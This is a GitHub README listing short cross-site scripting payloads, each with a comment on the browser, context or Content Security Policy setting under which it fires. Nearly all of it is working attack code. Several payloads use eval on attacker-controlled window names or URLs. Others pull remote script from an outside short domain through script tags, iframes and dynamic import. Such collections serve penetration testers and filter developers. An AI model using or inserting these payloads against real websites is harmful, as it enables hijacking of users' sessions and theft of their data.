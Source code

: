 # Tiny-XSS-Payloads
A collection of short XSS payloads that can be used in different contexts.

The DEMO available here: <https://tinyxss.terjanq.me>


## Current Payloads
```html
<!-- Only works as reflected XSS -->
<svg/onload=eval(name)>
```

```html
<!-- If you control the URL -->
<svg/onload=eval(`'`+URL)>
```

```html
<!-- If you control the name, but unsafe-eval not enabled -->
<svg/onload=location=name>
```

```html
<!-- In chrome, also works inside innerHTML, even on elements not yet inserted into DOM -->
<svg><svg/onload=eval(name)>
```

```html
<!-- If you control window's name, this payload will work inside innerHTML, even on elements not yet inserted into the DOM -->
<audio/src/onerror=eval(name)>
```

```html
<!-- If you control the URL, this payload will work inside innerHTML, even on elements not yet inserted into the DOM -->
<img/src/onerror=eval(`'`+URL)>
```

```html
<!-- Just a casual script -->
<script/src=//Ǌ.₨></script>
```

```html
<!-- If you control the name of the window -->
<iframe/onload=src=top.name>
```

```html
<!-- If you control the URL -->
<iframe/onload=eval(`'`+URL)>
```

```html
<!-- If number of iframes on the page is constant -->
<iframe/onload=src=top[0].name+/\Ǌ.₨?/>
```

```html
<!-- for Firefox only -->
<iframe/srcdoc="<svg><script/href=//Ǌ.₨ />">
```

```html
<!-- If number of iframes on the page is random -->
<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>
```

```html
<!-- If unsafe-inline is disabled in CSP and external scripts allowed -->
<iframe/srcdoc="<script/src=//Ǌ.₨></script>">
```

```html
<!-- If inline styles are allowed -->
<style/onload=eval(name)>
```

```html
<!-- If inline styles are allowed and the URL can be controlled -->
<style/onload=eval(`'`+URL)>
```

```html
<!-- If inline styles are blocked -->
<style/onerror=eval(name)>
```

```html
<!-- Uses external script as import, doesn't work in innerHTML unless Firefox -->
```

```html
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<svg/onload=import(/\\Ǌ.₨/)>
```

```html
<!-- Uses external script as import,  triggers if inline styles are allowed.
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<style/onload=import(/\\Ǌ.₨/)>
```

```html
<!-- Uses external script as import -->
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<iframe/onload=import(/\\Ǌ.₨/)>
```

Deprecated:

```html
<!-- If you control the URL, Safari-only -->
<iframe/onload=write(URL)>
```

```html
<!-- If inline styles are allowed, Safari only -->
<style/onload=write(URL)>
```
